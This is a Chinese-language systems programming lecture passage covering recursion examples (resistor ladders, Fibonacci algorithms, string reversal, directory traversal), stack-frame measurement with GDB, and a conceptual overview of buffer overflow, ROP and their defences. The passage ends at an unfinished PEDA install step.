如此的設計將傳統直譯器常見的複雜 switch + dispatch loop 拆解為一連串透過 tail call 串接的小型函式。相較 computed goto (GCC 的 `&&label` 擴充)，`musttail` 方案有明確的函式邊界，編譯器可獨立最佳化各 handler 的暫存器配置，不會因為共用同一巨大函式而導致暫存器壓力過高。rv32emu 進一步利用 block chaining 技術，在 basic block 之間也透過 `MUST_TAIL return taken->impl(...)` 直接跳躍，省去回到 dispatch loop 的開銷。


### 案例分析: 等效電阻
幾個連接起來的電阻所起的作用，可用一個電阻來代替，這個電阻就是那些電阻的等效電阻。也就是說任何電迴路中的電阻，不論有多少個，都可等效為一個電阻來代替。而不影響原迴路兩端的電壓和迴路中電流強度的變化。這個等效電阻，是由多個電阻經過等效串並聯公式，計算出等效電阻的大小值。也可以說，將這一等效電阻代替原有的幾個電阻後，對於整個電路的電壓和電流量不會產生任何的影響，所以這個電阻就叫做迴路中的等效電阻。

```
            r              r                              r
    ───────┤├────────────┤├──────────── · · · ───────────┤├──────────── A
    │              │              │                 │             │
    ┤              ┤              ┤                 ┤             ┤
  r ┤            r ┤            r ┤                 ┤           r ┤
    ┤              ┤              ┤                 ┤             ┤
    │              │              │                 │             │
    ──────────────────────────────────── · · · ──────────────────────── B
    1              2              3                n-1
```
(a)

```
                          r
               ──────────┤├──────────── A          ─────────── A
               │                 │                 │
               ┤                 ┤                 ┤
  R(r, n - 1)  ┤               r ┤           ==>   ┤  R(r, n)
               ┤                 ┤                 ┤
               │                 │                 │
               ──────────────────────── B          ─────────── B
```
(b)
圖：梯形電阻網路問題的拆解，及透過數學歸納法推導遞迴式


二個電阻並聯時，等效電阻為 $R_{eq} = (r_1 \times r_2)/(r_1 + r_2)$，也可表示為：
$$
\frac{1}{R_{eq}} = \frac{1}{r_1} + \frac{1}{r_2}
$$

這些規則可以逐對套用，直到電路只剩下單一電阻。不過這個過程相當繁瑣，遞迴提供簡潔而優雅的解法。

此問題有二個輸入參數：電阻值 $r$ 和梯形網路的級數 $n$。問題規模顯然取決於 $n$ ($r$ 影響最終數值，但不影響演算法的執行時間)。令 $R(r,n)$ 為遞迴函式。基礎情況 (base case) 發生在 $n = 1$ 時，此時梯形網路僅含一個電阻，因此 $R(r, 1) = r$。對於遞迴情況，我們需要在原問題中找到結構完全相同的子問題。圖 (a) 展示將問題規模縮減一級的拆解方式。子問題對應的電路可用一個等效電阻 $R(r, n - 1)$ 替代，如圖 (b) 所示，透過數學歸納法可假設其值已知。接著，將剩餘三個電阻的電路化簡便相當直接。首先，左側與上方的電阻串聯，合併為電阻值 $R(r, n - 1) + r$。然後，這個新電阻再與右側電阻並聯。$R(r, n)$ 可由下式定義：
$$
\frac{1}{R(r,n)} = \frac{1}{r} + \frac{1}{R(r, n - 1) + r}
$$

遞迴函式因此為：
$$
R(r,n)=
\begin{cases}
r & \text{if } n = 1\\
1 / (\frac{1}{r} + \frac{1}{R(r, n - 1) + r}) & \text{if } n > 1
\end{cases}
$$

值得一提的是，可證明 $R(r,n) = rF(2n - 1)/F(2n)$，其中 $F$ 為 Fibonacci 函數。

求解梯形電阻網路的函式：
```python
def circuit(n, r):
    if n == 1:
        return r
    else:
        return 1 / (1 / r + 1 / (circuit(n - 1, r) + r))
```

### 案例分析：數列輸出
以下 C 程式的作用為何？
```c=
int p(int i, int N) {
    return (i < N && printf("%d\n", i) && !p(i + 1, N))
           || printf("%d\n", i);
}
```

拆解為以下兩部份:
- [ ] 第 2 行：遞迴的終止條件
	```c=2
	(i < N && printf("%d\n", i) && !p(i + 1, N))
	```
* 依據 [C Operator Precedence](http://en.cppreference.com/w/c/language/operator_precedence)，`&&` (Logical AND) operator 的運算規則為左值優先，只要左值不成立，右值都不會執行
* 因此我們可確定，當 `i` 不小於 `N` 時，不會印出 `i`，也不會呼叫 `p`
* [printf(3)](https://linux.die.net/man/3/printf) 會回傳印出的字元數目，這裡一定回傳非零值
* 接著我們可推斷，當 `i < N` 成立，`i` 會被輸出，接著會呼叫 `p`
* 換言之，終止條件是 `i >= N`

- [ ] 第 3 行：輸出數值
	```c=3
	|| printf("%d\n", i)
	```
* `||` (Logical OR) operator 的運算規則為當左值成立時，右值就不會執行
* 因此 `p` 前面的 `!` 很重要。因為 p 的回傳值一定是 true (由於 `printf` 一定回傳非零值)，而為確保會執行到這第二個 `printf`，要將回傳值作 NOT，讓第一部份的結果為 false
	* 如果去掉 NOT，則只會輸出 `i -> N`
	:::info
    把 `!p(i+1, N)` 的反相`!` 拿掉後，得到以下結果:
    ```
    /* i = 1 , n = 5 */
    1
    2
    3
    4
    5
    ```
    :::
* 第二個 `printf` 要等 `p` 執行完畢才會被執行。遞迴呼叫在實作層面來說，就是藉由 stack 操作，這裡一旦被 push 到 stack 印一次，被 pop 出來再印一次

綜合以上分析，我們可得知上述程式碼的作用為「印出 i -> N -> i 的整數序列，N 只會出現一次」。

延伸問題：把 `&&` 前後的敘述對調，是否影響輸出？也就是說，變更原始程式碼，從 `i < N && printf("%d\n", i)` 改為 `printf("%d\n", i) && (i < N)` 的話，則會輸出 `i -> N N -> i` (N 出現兩次)，因為 `printf` 會先被執行，不會受到 `i < N` 成立與否影響。

延伸問題：`i` 和 `N` 組合的有效上下界為何？科技公司的面試過程中，這類題目有助於測驗應試者的系統概念。不妨將原本程式碼改寫為以下：
```c
#include <limits.h>
#include <stdio.h>
int p(int i, int N) {
    return (i < N && printf("%d\n", i) && !p(i + 1, N)) \
           || printf("%d\n", i);
}
int main() {
    return p(0, INT_MAX);
}
```

在 Linux x86-64 環境編譯並執行後，會得到類似以下輸出 (數字可能會有出入)：
```
261918
261919
261920
程式記憶體區段錯誤
```
這裡的 segmentation fault 意味著 stack overflow，遞迴呼叫時，每一層都有變數存放於 stack 中，每次呼叫也要儲存回傳位址 (return address)。注意：當 `i` 遞增到 `INT_MAX` 時，`i + 1` 會產生帶號整數溢位 (signed integer overflow)，此為 C 語言的未定義行為 (C99 §6.5¶5、C11 §6.5¶5：「若計算過程中發生例外狀況或結果無法以其型別表示，則行為未定義」)。在此範例中，stack overflow 遠早於整數溢位發生，但嚴格而言程式邏輯存在此隱患。C23 對此規則無變動，帶號整數溢位仍為未定義行為。

可用 `ulimit -s` 來改 stack size，預設是 8 MiB，計算後可推得，每個 stack 大約佔用 32 bytes，N 的限制取決於 stack size 的數值。

複習前述 Stack 章節的內容，為了滿足 [x86_64 ABI / calling convention](https://en.wikipedia.org/wiki/X86_calling_conventions)，每個 stack frame 包含：`call` 推入的 return address (8 bytes)、`push rbp` 儲存的 frame pointer (8 bytes)、參數 `i` 和 `N` 的區域副本合計 8 bytes，以及 ABI 要求的 16-byte stack 對齊填充 (8 bytes)，總共 32 bytes。計算過程：
    ```
    8MB = 8,388,608 bytes
    8,388,608 / 32 = 262,144 次
    ```
綜合上述，推算出 `0 < N - i < 262144`。

實驗 (檔名為 `p.c`)：
```shell
$ gcc -o p p.c -g -no-pie
$ gdb -q p
Reading symbols from p...
(gdb) break p
Breakpoint 1 at 0x401148: file p.c, line 5.
(gdb) run
Starting program: /tmp/p

Breakpoint 1, p (i=0, N=2147483647) at p.c:5
5	           || printf("%d\n", i);
(gdb) info frame
Stack level 0, frame at 0x7fffffffea20:
 rip = 0x401148 in p (p.c:5); saved rip = 0x4011c5
 called by frame at 0x7fffffffea30
 source language c.
 Arglist at 0x7fffffffea10, args: i=0, N=2147483647
 Locals at 0x7fffffffea10, Previous frame's sp is 0x7fffffffea20
 Saved registers:
  rbp at 0x7fffffffea10, rip at 0x7fffffffea18
```

:::warning
現代編譯器的最佳化可能會造成非預期的改變，例如在前述編譯參數追加 `-O3`，在 gcc-6.2 輸出的執行檔會得到以下輸出:
523637
523638
523639
程式記憶體區段錯誤
:::


> [source](https://x.com/ProductHunt/status/1013695862508097536)

### 遞迴程式設計

延伸閱讀：[Recursive Programming](https://web.archive.org/web/20191228141133/http://www.cs.cmu.edu:80/~adamchik/15-121/lectures/Recursions/recursions.html)、[Recursive Functions](https://web.archive.org/web/20171116063115/http://www.cs.umd.edu:80/class/fall2002/cmsc214/Tutorial/recursion2.html)。

### Fibonacci sequence

數學定義如下:
$F_n = F_{n-1}+F_{n-2},$
$F_0 = 0, F_1 = 1$

數列值：
| $F_0$ | $F_1$ | $F_2$ | $F_3$ |$F_4$|$F_5$|$F_6$|$F_7$|$F_8$|$F_9$|$F_{10}$|$F_{11}$|$F_{12}$|$F_{13}$|$F_{14}$|$F_{15}$|$F_{16}$|$F_{17}$| $F_{18}$|$F_{19}$|$F_{20}$|
| ----| ---- | ---- |---- |---- |---- |---- |---- |---- |---- |---- |---- |---- |---- |---- |---- |---- |---- |---- |---- |---- |
| 0| 1 |1|2|3|5|8|13|21|34|55|89|144|233|377|610|987|1597|2584|4181|6765|

Fibonacci 數列的解法非常多元，包含遞迴法、非遞迴法、[近似解](https://www.mathsisfun.com/numbers/fibonacci-sequence.html)、[線性代數解](https://en.wikibooks.org/wiki/Linear_Algebra/Topic:_Linear_Recurrences)，以及[排列組合解](http://yqcmmd.com/2015/06/23/fibonacci/)。以下選出幾種經典實作。

#### 遞迴法 (Recursive)

即是 Fibonacci 數列定義，將此轉為程式碼
```c
int fib(int n) {
    if (n == 0) return 0;
    if (n == 1) return 1;
    return fib(n - 1) + fib (n - 2);
}
```

#### 非遞迴法 (Iterative)

可縮減原先使用遞迴法的函式呼叫造成之執行時期開銷。以下先討論基本方法。
```c
int fib(int n) {
    int pre = -1;
    int result = 1;
    int sum = 0;
    for (int i = 0; i <= n; i++) {
        sum = result + pre;
        pre = result;
        result = sum;
    }
    return result;
}
```

我們可減少變數的使用：
```c
int fib(int n) {
    if (n == 0) return 0;
    int pre = -1;
    int i = n;
    n = 1;
    int sum = 0;
    while (i > 0) {
        i--;
        sum = n + pre;
        pre = n;
        n = sum;
    }
    return n;
}
```

#### Tail recursion

此法可加速原先之遞迴，可減少一半的資料回傳，而概念上是運用從第一次 call function 後即開始計算值，不像之前的遞迴需 call function 至中止條件後才開始計算值，再依序傳回到最上層，因此可大幅降低時間，減少 stack 使用量。參考實作如下：
```c
int fib(int n, int a, int b) {
    if (n == 0) return a;
    return fib(n - 1 , b, a + b);
}
```

此外，我們用樹狀圖來解釋 Recursive Method 以及 Tail Recursion 之差別，以下以 Fib(5) 為例。

- [ ] Recursive Method



- [ ] Tail Recursion




在兩張樹狀圖之顯示下，可明顯看出複雜度之不同，一則會發展出樹狀結構，而另一則是有如迴圈。

#### Q-Matrix

$A^1 =
\left(
\begin{array}{ccc}
1 & 1 \\
1 & 0 \\
\end{array}
\right)
= \left(
\begin{array}{ccc}
F_2 & F_1 \\
F_1 & F_0 \\
\end{array}
\right)$

$\begin{split}
A^{n+1} &= AA^n \\ &=
\left(
\begin{array}{ccc}
1 & 1 \\
1 & 0 \\
\end{array}
\right)
\left(
\begin{array}{ccc}
F_{n+1} & F_{n} \\
F_{n} & F_{n-1} \\
\end{array}
\right) \\ \\ &=
\left(
\begin{array}{ccc}
F_{n+1}+F_{n} & F_{n}+F_{n-1} \\
F_{n+1} & F_{n} \\
\end{array}
\right) \\ \\ &=
\left(
\begin{array}{ccc}
F_{n+2} & F_{n+1} \\
F_{n+1} & F_{n} \\
\end{array}
\right)
\end{split}$

透過矩陣轉換之方法，我們把原本之遞迴式轉換到矩陣表示，並透過矩陣次方之Divide and Conquer Method 來做加速。

$A^{2n+1} =A^{n+1}A^n$

因此能大幅減少運算量，但此方法牽涉除法以及矩陣，其中除法可使用向右位移及可利用最低位元來判斷奇偶數。實作 Fibonacci 數列如下。
```c
typedef int Mat[2][2];

void matrix_multiply(Mat a, Mat b, Mat out)
{
    Mat tmp = {{0}};
    for (int i = 0; i < 2; i++)
        for (int j = 0; j < 2; j++)
            for (int k = 0; k < 2; k++)
                tmp[i][j] += a[i][k] * b[k][j];
    memcpy(out, tmp, sizeof(Mat));
}

/* 使用 Divide-and-Conquer 方法加速矩陣 */
void matrix_pow(Mat base, int n, Mat out)
{
    if (n == 1) {
        memcpy(out, base, sizeof(Mat));
        return;
    }
    Mat half;
    matrix_pow(base, n >> 1, half);
    if (n % 2 == 0) {
        matrix_multiply(half, half, out);
    } else {
        Mat tmp;
        matrix_multiply(half, half, tmp);
        matrix_multiply(tmp, base, out);
    }
}
```

我們可在 Q-Matrix 的基礎上，計算 Fibonacci 數列:
```c
int fib(int n)
{
    if (n <= 0) return 0;
    Mat A = {{1, 1}, {1, 0}};
    Mat result;
    matrix_pow(A, n, result);
    return result[0][1];
}
```

#### Fast doubling
此方法類似上述提及之 Q-Matrix 做法，基於矩陣之方法繼續推演而得，在效能上更勝 Q-Matrix 一籌，此概念是使用矩陣乘法相將二個 n 次方矩陣相乘而得。
$\begin{bmatrix}
 1 & 1 \\
 1 & 0
\end{bmatrix}^n =
\begin{bmatrix}
F(n+1) & F(n) \\
F(n) & F(n-1)
\end{bmatrix}$

$\begin{split}
\begin{bmatrix}
 F(2n+1) \\
 F(2n)
\end{bmatrix} &=
\begin{bmatrix}
 1 & 1 \\
 1 & 0
\end{bmatrix}^{2n}
\begin{bmatrix}
 F(1) \\
 F(0)
\end{bmatrix}\\ \\ &=
\begin{bmatrix}
 1 & 1 \\
 1 & 0
\end{bmatrix}^n
\begin{bmatrix}
 1 & 1 \\
 1 & 0
\end{bmatrix}^n
\begin{bmatrix}
 F(1) \\
 F(0)
\end{bmatrix}\\ \\ &=
\begin{bmatrix}
F(n+1) & F(n) \\
F(n) & F(n-1)
\end{bmatrix}
\begin{bmatrix}
F(n+1) & F(n) \\
F(n) & F(n-1)
\end{bmatrix}
\begin{bmatrix}
 1 \\
 0
\end{bmatrix}\\ \\ &=
\begin{bmatrix}
 F(n+1)^2 + F(n)^2\\
 F(n)F(n+1) + F(n-1)F(n)
\end{bmatrix}
\end{split}$

透過上述之數學推論，我們最後可得兩公式可供使用。
$$
\begin{split}
F(2k) &= F(k)[2F(k+1) - F(k)] \\
F(2k+1) &= F(k+1)^2+F(k)^2
\end{split}
$$

接著我們即可使用此公式來撰寫 Fibonacci 數列:
```c
int fib(int n) {
    if (n == 0) return 0;
    int t0 = 1; // F(n)
    int t1 = 1; // F(n + 1)
    int t3 = 1; // F(2n)
    int t4; // F(2n+1)
    int i = 1;
    while (i < n) {
        if ((i << 1) <= n) {
            t4 = t1 * t1 + t0 * t0;
            t3 = t0 * (2 * t1 - t0);
            t0 = t3;
            t1 = t4;
            i = i << 1;
        } else {
            t0 = t3;
            t3 = t4;
            t4 = t0 + t4;
            i++;
        }
    }
    return t3;
}
```

#### 演算法比較
在上述方法中，比較這些方法所花費之複雜度如下，可發現最基礎之Recursive 方法是極沒效率之方法，而其後之 Q-Matrix 及 Fast Doubling 效能則有顯著差異。

| 方法 | 複雜度 |
| -------- | -------- |
| Recursive  | $O(2^n)$  |
| Iterative  | $O(n)$  |
| Tail Recursion  | $O(n)$  |
| Q-Matrix  | $O(\log n)$  |
| Fast Doubling  | $O(\log n)$  |

因改良後的時間複雜度皆為同等級，我們接著實際比較執行時間。


比較 Recursive Method 和 Iterative Method 的效能差異。


此二種方法在 n = 1M 時還是都有不錯的表現，與原先之 Recursive 方式相比實為甚廣，而透過此二者之比較，最後還是可得出透過Fast Doubling 的方法能得到更好之效能，對上面之複雜度圖表也能互相呼應。

Fibonacci 參考資料：
* [Fibonacci number](https://en.wikipedia.org/wiki/Fibonacci_number)
* [Tail call](https://en.wikipedia.org/wiki/Tail_call)
* [Fibonacci Q-Matrix](http://mathworld.wolfram.com/FibonacciQ-Matrix.html)
* [How to prove Fibonacci sequence with matrices?](http://math.stackexchange.com/questions/784710/how-to-prove-fibonacci-sequence-with-matrices)
* [The Fibonacci Q-matrix](https://youtu.be/lTHVwsHJrG0)
* [Fast Fibonacci algorithms](http://www.nayuki.io/page/fast-fibonacci-algorithms)
* [Need help understanding Fibonacci Fast Doubling Proof](http://math.stackexchange.com/questions/1124590/need-help-understanding-fibonacci-fast-doubling-proof)
* [An integer formula for Fibonacci numbers](https://blog.paulhankin.net/fibonacci/)。

### 案例分析：字串反轉
要求用 C 語言實作 `char *reverse(char *s)`，反轉 NULL 結尾的字串，限定 in-place 與遞迴。先思考實作 swap 的技巧，考慮以下程式碼：

```c
void swap(int *a, int *b)
{
    int t = *a; *a = *b; *b = t;
}
```
能否避免使用區域變數 t？又，可否改用 bit-wise operator 來改寫？

數值運算的作法是利用二個相差距離做運算，但若遇到一個很大的整數與一個負數 (足夠讓它超過最大整數) 二個相減時，會產生溢位：

```c
*a = *a - *b; /* 兩數相差 */
*b = *a + *b; /* 相加得出 *b */
*a = *b - *a; /* 相減得出 *a */
```

邏輯運算的作法是運用邏輯運算檢視二個不同相差的位元，依據以下真值表：

| A | B | $\oplus$ |
| -------- | -------- | -------- |
| F     | F     | F     |
| F     | T     | T     |
| T     | F     | T     |
| T     | T     | F     |


```c
*a = *a ^ *b; // 求得相差位元
*b = *a ^ *b; // 與相差位元做 XOR 得出 *a
*a = *a ^ *b; // 與相差位元做 XOR 得出 *b
```

邏輯運算的好處是，可避免前述算術會遇到的 integer overflow，而且不限定位元數

參考的 in-place string reverse 想法：一直 swap '\0'之前的character，演算法描述:

1. 先把首尾互換


2. 把尾端和'\0'互換


3. 重複遞迴，直到'\0'在中間


4. 層層把'\0'換回最尾即可


過程示意:

:::info
a b c ==d== ==e== -> a b c ==e== ==d==
a b ==c== ==e== d -> a b ==e== ==c== d
a b e ==c== ==d== -> a b e ==d== ==c==
a ==b== ==e== d c -> a ==e== ==b== d c
a e b ==d== ==c== -> a e b ==c== ==d==
a e ==b== ==c== d -> a e ==c== ==b== d
a e c ==b== ==d== -> a e c ==d== ==b==
==a== ==e== c d b -> ==e== ==a== c d b
e a ==c== ==d== b -> e a ==d== ==c== b
e a d ==c== ==b== -> e a d ==b== ==c==
e ==a== ==d== b c -> e ==d== ==a== b c
e d a ==b== ==c== -> e d a ==c== ==b==
e d ==a== ==c== b -> e d ==c== ==a== b
e d c ==a== ==b== -> e d c ==b== ==a==
:::
關於這個遞迴，有更直覺的思考模式。根據題目給定， $reverse(s)$ 的作用為將 s 反轉。
假設我們要反轉：
$5\space 4\space 3\space 2\space 1\space$
步驟可以分成三步，第一步是利用 $reverse(s + 1)$ 先反轉後4個：
$5\space 1\space 2\space 3\space 4\space$
然後再把1跟5對調：
$1\space 5\space 2\space 3\space 4\space$

為了讓後 4 個能再利用 $reserve(s + 1)$ 反轉，我們必須先將後三個調轉，也就是呼叫 $reverse(s+2)$：
$1\space 5\space 4\space 3\space 2\space$
這樣一來我們就能呼叫 $reverse(s+1)$ 來反轉後 4 個：
$1\space 2\space 3\space 4\space 5\space$
因此 $reverse(s)$ 可拆成以下步驟：
$reverse(s+1) \to swap(s, s+1) \to reverse(s+2) \to reverse(s+1)$
剩下就是終止條件判斷。

```c
static inline void swap(char *a, char *b)
{
    *a = *a ^ *b; *b = *a ^ *b; *a = *a ^ *b;
}

char *reverse(char *s)
{
    if ((*s == '\0') || (*(s + 1) == '\0'))
        return NULL;

    reverse(s + 1);
    swap(s, (s + 1));

    if (*(s + 2) != '\0')
        reverse(s + 2);
    reverse(s + 1);
    return s;
}
```

缺點：`reverse` 對長度 $n$ 的字串呼叫三次遞迴 (`reverse(s+1)` 兩次、`reverse(s+2)` 一次)，遞迴關係為 $T(n) = 2T(n-1) + T(n-2) + O(1)$，時間複雜度為指數級 $O((1+\sqrt{2})^n)$

改進思路：計算字串長度時，即可交換字元。
```c
int rev_core(char *head, int idx)
{
    if (head[idx] != '\0') {
        int end = rev_core(head, idx + 1);
        if (idx > end / 2)
            swap(head + idx, head + end - idx);
        return end;
    }
    return idx - 1;
}

char *reverse(char *s)
{
    rev_core(s, 0);
    return s;
}
```

時間複雜度降為 $T(n) = O(n)$

### 案例分析: 建立目錄
[mkdir](https://man7.org/linux/man-pages/man1/mkdir.1.html) 是符合 POSIX 規範的作業系統 (如 GNU/Linux) 都有提供的工具程式，其中有項參數 `-p`:
> no error if existing, make parent directories as needed

於是我們可執行命令 `mkdir -p /tmp/aaa/bbb/ccc` 來建立 `/tmp` 目錄下的 `aaa` 目錄，後者裡頭又包含 `bbb` 目錄，而 `bbb` 目錄則包含 `ccc` 目錄。

[mkdir](https://man7.org/linux/man-pages/man2/mkdir.2.html) 系統呼叫可建立新的目錄，但卻不像上述 `-p` 參數這麼方便，這時我們就可搭配遞迴呼叫的技巧來實作。程式碼如下:
```c
#include <dirent.h>
#include <errno.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/stat.h>

int mkdir_r(const char *path, int level)
{
    int ret = -1;
    char *dir = NULL;
    DIR *d = NULL;

    if (!strlen(path))
        goto leave;

    const char *c = path;
    int cur_level = 0;

    while (cur_level <= level) {
        for (; *c && *c != '\\' && *c != '/'; c++) /* seek for separator */
            ;
        if (*c)
            c++;
        cur_level++;
    }

    const size_t sz = c - path + 1;
    dir = malloc(sz);
    if (!dir)
        goto leave;

    memcpy(dir, path, sz - 1);
    dir[sz - 1] = '\0';

    d = opendir(dir);
    if (!d && mkdir(dir, S_IRWXU | S_IRWXG | S_IROTH | S_IXOTH)) {
        perror("mkdir");
        goto leave;
    }

    if (*c)
        mkdir_r(path, cur_level);

    /* No more levels left */
    ret = 0;

leave:
    free(dir);
    if (d)
        closedir(d);
    return ret;
}

int main()
{
    mkdir_r("aaa/bbb/ccc", 0);
    return 0;
}
```

### 案例分析: 類似 find 的程式

給定 [opendir(3)](http://man7.org/linux/man-pages/man3/opendir.3.html) 與 [readdir(3)](http://man7.org/linux/man-pages/man3/readdir.3.html) 函式，用遞迴寫出類似 [find](https://man7.org/linux/man-pages/man1/find.1.html) 的程式。find 的功能是列出包含目前目錄和其所有子目錄之下的檔案名稱。
```c
#include <sys/types.h>
#include <dirent.h>
void list_dir(const char *dir_name)
{
    DIR *d = opendir(dir_name);
    if (!d) return; /* fail to open directory */

    while (1) {
        struct dirent *entry = readdir(d);
        if (!entry) break;

        const char *d_name = entry->d_name;
        printf ("%s/%s\n", dir_name, d_name);

        if ((entry->d_type == DT_DIR)
            && strcmp(d_name, "..") && strcmp(d_name, ".")) {
            char path[PATH_MAX];
            int path_length = snprintf(path, PATH_MAX,
                                       "%s/%s", dir_name, d_name);
            printf ("%s\n", path);
            if (path_length >= PATH_MAX) return;
            /* Recursively call "list_dir" with new path. */
            list_dir (path);
        }
    }

    if (closedir (d)) return;
}
```

練習：如何連同檔案一併列印？另外，上述程式碼實作有誤，額外的 `.` 和 `..` 也輸出，請修正。原始碼來源: [rd.c](https://www.lemoda.net/c/recursive-directory/rd.c)。

### 案例分析: Merge Sort

[Program for Merge Sort in C](http://www.thecrazyprogrammer.com/2014/03/c-program-for-implementation-of-merge-sort.html) (內含動畫，另有[非遞迴的版本](http://stackoverflow.com/questions/1557894/non-recursive-merge-sort))。


複雜度分析可參見 [Merge Sort](http://www.personal.kent.edu/~rmuhamma/Algorithms/MyAlgorithms/Sorting/mergeSort.htm)，延伸實作則有 [MapReduce with POSIX Thread](https://hackmd.io/s/Hkb-lXkyg)。

### 案例分析: Bubble Sort

Bubble Sort 也可以用遞迴實現，參見 [Bubble Sort](https://web.archive.org/web/20210725092455/http://faculty.salina.k-state.edu/tim/CMST302/study_guide/topic7/bubble.html) 中 non-recursive 與 recursive 的對照。

### 函數式程式開發
Functional programming 在 [concurrency 環境](https://hackmd.io/s/H10MXXoT) 變得日益重要。延伸閱讀：[Functional C](https://pdfs.semanticscholar.org/31ac/b7abaf3a1962b27be9faa2322038d1ac9ed7.pdf)、[Functional programming in C](https://lucabolognese.wordpress.com/2013/01/04/functional-programming-in-c/)、[Functional Programming 風格的 C 語言實作](https://hackmd.io/@sysprog/HyS-9S6OE)。

### 遞迴背後的理論
[Lambda-calculus models of programming languages](https://dspace.mit.edu/handle/1721.1/64850) (1969 年) 對遞迴和資料型態進行語意分析：
> "We view the work presented in this dissertation as a semantic analysis of the two subjects, recursion and data types. We tend to understand these subjects pragmatically. When a programner thinks of recursion, he thinks of push-down stacks and other aspects of how recursion "works". Similarly, types and type declarations are often described as communications to a compiler to aid it in allocating storage, etc."

由遞迴關係定義的函式，可視作函數式程式設計：
> "Specifically, in Chapter 3 we show how a function defined by recursion can be viewed as the result of a particular operation on an object called a functional. In Chapter 4 we outline a type declaration system in which a type can be construed as a set of objects and a type declaration as an assertion that a particular expression always denotes a member of the set."

解說短片：
* [Lambda Calculus](https://youtu.be/eis11j_iGMs)、[Essentials: Functional Programming's Y Combinator](https://youtu.be/9T8A89jgeTI)
* [遞迴與自我複製悖論](https://youtu.be/vdZr-O3nTPY)

## 從遞迴觀察函式呼叫

- [ ] `infinite.c`
```c
int func() {
    static int count = 0;
    return ++count && func();
}

int main() {
    return func();
}
```

用 GDB 執行和測試，記得加上 `-g`:
```shell
$ gcc -o infinite infinite.c -g -no-pie
$ gdb -q infinite
Reading symbols from infinite...
(gdb) r
Starting program: /tmp/infinite

Program received signal SIGSEGV, Segmentation fault.
0x000000000040112c in func () at infinite.c:3
3                return ++count && func();
(gdb) p count
$1 = 524193
```

如果將  infinite.c 改為以下，重複上述動作：
```c
int func(int x) {
    static int count = 0;
    return ++count && func(x++);
}

int main() {
    return func(0);
}
```

將得到：
```shell
Program received signal SIGSEGV, Segmentation fault.
0x0000000000401112 in func (x=<error reading variable: Cannot access memory at address 0x7fffff7feffc>) at infinite.c:1
1        int func(int x) {
(gdb) p count
$1 = 262096
```

繼續修改 `infinite.c` 為以下，重複上述動作:
```c
int func(int x) {
    static int count = 0;
    int y = x; // local var
    return ++count && func(x++);
}

int main() {
    return func(0);
}
```

將得到以下：
```shell
Program received signal SIGSEGV, Segmentation fault.
0x000000000040113f in func (x=1) at infinite.c:4
4        return ++count && func(x++);
(gdb) p count
$1 = 174731
```

stack 裡面有 x (parameter), y (local variable), return address

stack frame

觀察 UNIX Process 中的 stack 空間:

Process 的 stack 大小上限由 `RLIMIT_STACK` 決定，可用 `ulimit -s` 查詢：
```shell
$ ulimit -s
8192
```
單位為 KB，即預設 stack 上限為 8 MB (8,388,608 bytes)。

核心不會一次配置 8 MB 的 stack 映射，而是按需成長。透過 `/proc/<pid>/maps` 可觀察目前的 stack 映射大小：
```shell
$ cat /proc/self/maps | grep stack
7fff7e13f000-7fff7e160000 rw-p 00000000 00:00 0 [stack]
```
此處映射大小為 60000~Hex~ - 3f000~Hex~ = 21000~Hex~ = 135168~Dec~ (132 KB)，遠小於 8 MB 上限。當程式使用更多 stack 空間時，核心透過 page fault 自動擴展映射，直到觸及 `RLIMIT_STACK` 上限才發出 SIGSEGV。

回到前述第一個 `infinite.c`（無參數、無區域變數），每次 `func()` 呼叫的 stack frame 包含 `call` 推入的 return address (8 bytes) 和 `push rbp` (8 bytes)，共 16 bytes。因此遞迴次數的理論上限為：

$$\lfloor 8{,}388{,}608 \div 16 \rfloor = 524{,}288$$

實際觀察到的 524,193 略低於此上限，差距為 $524{,}288 - 524{,}193 = 95$ 個 frame，相當於 1,520 bytes。這些空間在 `func()` 開始遞迴前就已被佔用，包含：
- C runtime 啟動流程的 stack frame (`_start` → `__libc_start_main` → `main`)
- 命令列參數 `argv` 與環境變數 `envp`
- 核心傳遞的 auxiliary vector (`AT_PHDR`, `AT_ENTRY`, `AT_RANDOM` 等)

## 為何理解函式呼叫機制攸關資訊安全
前述的 stack 操作看似簡單對稱 (`call` 推入返回位址，`ret` 彈出返回位址)，但這個對稱性恰恰是攻擊者的切入點。由於返回位址與區域變數同處一塊連續的記憶體區域 (stack frame)，只要區域變數的寫入缺乏邊界檢查，攻擊者就能順著記憶體覆寫到返回位址，從而在 `ret` 執行時將控制流導向任意位址。函式呼叫的每一個環節 (參數傳遞方式、回傳位址的存放位置、stack frame 的排列順序) 都直接決定攻擊者能否劫持程式的控制流程。

- [ ] 回傳位址 (return address) 與 buffer overflow
    每次函式呼叫，`call` 指令會將下一道指令的位址推入 stack。這個回傳位址緊鄰區域變數，若區域變數的寫入缺乏邊界檢查 (如使用 `gets()`)，攻擊者可覆寫回傳位址，在函式執行 `ret` 時將控制流導向任意位址。
- [ ] Calling convention 與 ROP
    攻擊者利用 calling convention 的知識，在 stack 上精心排列一連串以 `ret` 結尾的程式碼片段 (gadget) 位址。每個 `ret` 從 stack pop 出下一個 gadget 位址並跳躍過去，串接成圖靈完備的計算能力，即 Return-oriented programming (ROP)。
- [ ] 現代防禦機制與其侷限
* Stack canary：在回傳位址前插入隨機值，函式返回前檢查是否被改動。可被資訊洩漏 (information leak) 繞過。
* ASLR (Address Space Layout Randomization)：隨機化 stack、heap、共享函式庫的基底位址，使攻擊者難以預測 gadget 位址。但位址洩漏或暴力猜測可能突破。
* NX/DEP (No-Execute)：標記 stack 和 heap 為不可執行，阻止直接注入 shellcode。ROP 正是為繞過此機制而生。
* CET (Control-flow Enforcement Technology)：Intel 提出的硬體防護，包含 shadow stack (獨立記錄回傳位址，`ret` 時比對) 與 indirect branch tracking (`endbr64` 標記合法跳躍目標)。前者防禦 ROP，後者防禦 JOP/COP。
* CFI (Control Flow Integrity)：編譯器層級的防護 (如 Clang 的 `-fsanitize=cfi`)，限制間接呼叫只能跳至型別相符的函式。

每層防禦都是針對函式呼叫機制的特定弱點而設計。不理解 calling convention 如何運作，就無法理解這些防禦為何有效、又為何可能被繞過。

[CVE-2015-7547](https://access.redhat.com/security/cve/cve-2015-7547) 是 glibc DNS client-side resolver 中的漏洞，該 resolver 負責將人類可讀的域名 (如 google.com) 轉換為網路 IP 位址 ([解說](http://thehackernews.com/2016/02/glibc-linux-flaw.html))。

:::info
後續的 ROP 攻擊實驗需要用到 [PEDA](https://github.com/longld/peda) 這項 GDB 擴充 (提供 `pattc`, `crashoff`, `vmmap` 等命令)，安裝方式:
```shell
